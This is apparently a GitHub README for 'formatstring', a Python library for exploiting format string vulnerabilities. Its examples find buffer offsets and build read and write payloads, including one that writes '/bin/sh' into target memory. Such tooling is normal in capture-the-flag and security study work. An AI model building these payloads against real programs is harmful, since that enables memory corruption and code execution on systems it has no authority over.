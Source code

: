 # Formatstring

Formatstring is a **python 3** library to help the exploitation of **format string vulnerabilities**.

## Install

**formatstring** can be installed from PyPI (Python package index) using pip:
```bash
pip install formatstring
```

## Examples

* Generate a pattern to detect the offset of the printed buffer
```bash
$ python formatstring/pattern_create.py 255
ABCDEFGH|%1$p|%2$p|%3$p|%4$p|%5$p|%6$p|%7$p|%8$p|%9$p|%10$p
```

* Compute the offset, given the result of the format string on the previous pattern
```bash
$ python formatstring/pattern_offset.py --arch x86_32
Enter the result of the format string on a pattern given by pattern_create:
ABCDEFGH|0x400|0xf776e5a0|0x4|0x4|0x7|0x1b3220|0x43424120|0x47464544|0x31257c48|0x257c7024
Found buffer at offset 8
```

* Generate a payload to read at a given address
```python
import sys
from formatstring import *

settings = PayloadSettings(offset=8, arch=x86_32)

p = ReadPayload(0x8048590)
sys.stdout.buffer.write(p.generate(settings))
```

* Generate a payload to write at various addresses
```python
import sys
from formatstring import *

settings = PayloadSettings(offset=8, arch=x86_32)

p = WritePayload()
p[0x8049790] = b'/bin/sh\x00'
p[0x80497a8] = struct.pack('@I', 0x01020304)
sys.stdout.buffer.write(p.generate(settings))
```

## Contributors

Author: Maxime Arthaud (maxime@arthaud.me)

## License

formatstring is under The MIT License (MIT)
